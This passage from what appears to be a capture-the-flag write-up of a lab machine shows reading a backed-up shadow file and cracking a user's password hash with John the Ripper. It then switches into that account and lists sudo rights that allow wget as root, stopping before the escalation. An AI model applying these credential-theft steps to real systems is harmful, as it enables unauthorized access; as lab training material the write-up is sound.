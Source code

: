 ```text
/backup
```

It contains two files agen22.backup and shadow.backup. The former we don’t have access to, however, we can view the latter.

```text
sammy@sunday:/backup$ cat shadow.backup 
mysql:NP:::::::
openldap:*LK*:::::::
webservd:*LK*:::::::
postgres:NP:::::::
svctag:*LK*:6445::::::
nobody:*LK*:6445::::::
noaccess:*LK*:6445::::::
nobody4:*LK*:6445::::::
sammy:$5$Ebkn8jlK$i6SSPa0.u7Gd.0oJOT4T421N2OvsfXqAT1vCoYUOigB:6445::::::
sunny:$5$iRMbpnBv$Zh7s6D7ColnogCdiVE5Flz9vCZOMkUFxklRhhaShxv3:17636::::::
```

It’s a backup of the shadow file. We already know Sunny’s password so we’re not going to attempt to crack it. Instead, copy Sammy’s password and save it in the file sammy-hash.txt. Then use John to crack the hash.

```text
root@kali:~# john --wordlist=/usr/share/wordlists/rockyou.txt sammy-hash.txt Using default input encoding: UTF-8
Loaded 1 password hash (sha256crypt, crypt(3) $5$ [SHA256 256/256 AVX2 8x])
Cost 1 (iteration count) is 5000 for all loaded hashes
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
cooldude!        (?)
1g 0:00:01:17 DONE (2020-01-05 21:03) 0.01292g/s 2648p/s 2648c/s 2648C/s domonique1..bluenote
Use the "--show" option to display all of the cracked passwords reliably
Session completed
```

We got a password! Let’s su into Sammy’s account.

```text
su - sammy
```

Now we can view the user.txt flag.

![](https://miro.medium.com/max/741/1*sNjl25x8PcsO0dq8WhPS2Q.png)

Let’s try to escalate to root privileges. Run the sudo command again to view the list of allowed commands the user can run as root.

```text
sammy@sunday:~$ sudo -l
User sammy may run the following commands on this host:
    (root) NOPASSWD: /usr/bin/wget
```
